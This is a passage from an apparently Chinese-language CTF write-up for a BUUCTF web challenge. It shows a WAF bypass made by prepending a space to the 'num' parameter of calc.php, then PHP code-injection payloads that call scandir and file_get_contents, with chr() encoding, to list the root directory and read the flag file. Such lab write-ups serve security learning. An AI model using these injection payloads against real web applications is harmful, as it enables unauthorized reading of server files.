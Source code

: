 >
> 2、将某些字符转换为下划线（包括空格）

![image-20200928191648590](BUUCTF——Web.assets/image-20200928191648590.png)

不在num前面加内容的时候会显示forbidden，表示已经被禁止了，而加上以后就能够正常执行后续的操作。

后面需要进行的就是查找目录下的文件，这样才能找到flag所在的位置。

查询的语句

```
scandir(/)
```

但是“/”被绕过了，所以选择chr(47)代替。

用var_dump()进行包裹，这样才能进行输出

> var_dump()函数会打印显示一个变量的内容与结构，以及类型信息。

```
%20num=1;var_dump(scandir(chr(47)))
```

![image-20200928192103552](BUUCTF——Web.assets/image-20200928192103552.png)

得到目录，flag应该就在“f1agg”文件里，访问

```
calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

![image-20200928194753026](BUUCTF——Web.assets/image-20200928194753026.png)





### [极客大挑战 2019]Havefun（代码审计）

打开后查看源码，可以看到PHP代码
